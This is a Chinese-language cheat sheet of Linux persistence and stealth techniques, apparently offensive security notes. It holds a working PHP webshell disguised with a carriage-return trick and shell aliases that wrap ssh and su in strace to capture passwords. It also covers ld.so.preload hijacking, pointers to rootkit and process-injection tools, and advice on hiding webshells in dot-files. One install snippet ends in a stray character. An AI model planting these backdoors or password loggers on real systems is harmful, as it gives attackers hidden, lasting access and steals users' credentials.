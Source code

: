 read more [[DARK] Weapons of Text Destruction](https://github.com/jaredestroud/WOTD/blob/master/%5BDARK%5D%20Weapons%20of%20%20Text%20Destruction.pdf)

**终端解析 \r 导致的问题**
```bash
echo -e "<?=\`\$_POST[good]\`?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

**strace 记录 ssh 登录密码**

注意 bash_profile 是在登录的 shell 执行的，bashrc 是在非登录的 shell 执行,即如果你只是想每次在登录的时候让它去执行，这个时候你可以把你的命令写在 .bash_profile,如果你想每次打开一个新的终端的时候都去执行，那么应该把命令写在 .bashrc 中。
```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
# 也可记录 su 密码
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```

**预加载型动态链接库后门 ld.so.preload**

在 linux 下执行某个可执行文件之前，系统会预先加载用户定义的动态链接库的一种技术，这个技术可以重写系统的库函数，导致发生 Hijack
strace 命令 id 的时候可以发现有预先去读取 `/etc/ld.so.preload` 文件(也可使用设置 LD_PRELAOD 环境变量方式)，如果我们将事先写好的恶意 so 文件位置写入 ld.so.preload 文件，这个时候就会达到“劫持”的效果。
比较好用的工具有 Vegile 和 cub3 等
[cub3](https://github.com/mempodippy/cub3),这个工具使用了 LD_PRELOAD 和系统的扩展属性去隐藏文件。
其中还有一种是通过修改动态链接器来加载恶意动态链接库的后门，通过替换或者修改动态链接器中的默认预加载配置文件 `/etc/ld.so.preload` 路径的 rootkit，此方法更加隐蔽，这个方法的较成熟的利用工具是 [Vlany](https://github.com/mempodippy/vlany)

**Vegile**

This tool will set up your backdoor/rootkits when backdoor is already setup it will be hidden your specific process,unlimited your session in metasploit and transparent. Even when it is killed, it will re-run again. There will always be a procces which will run another process, so we can assume that this procces is unstopable like a Ghost in The Shell
```bash
git clone https://github.com/Screetsec/Vegile.git
cd Vegile
chmod +x Vegile
鸽
```

**进程注入**

使用 ptrace 向进程中注入恶意 so 文件工具[linux-inject](https://github.com/gaffe23/linux-inject/)

**内核级 rootkit**

如 mafix、[Diamorphine](https://github.com/m0nad/Diamorphine)

## 隐藏进程

**藏文件和文件夹**
1. 比如创建一个名字开头带 `.` 的 Webshell 或者文件夹，默认情况下是不会显示出来的，浏览器访问的时候加点访问就行。(查看方法：ls -a)
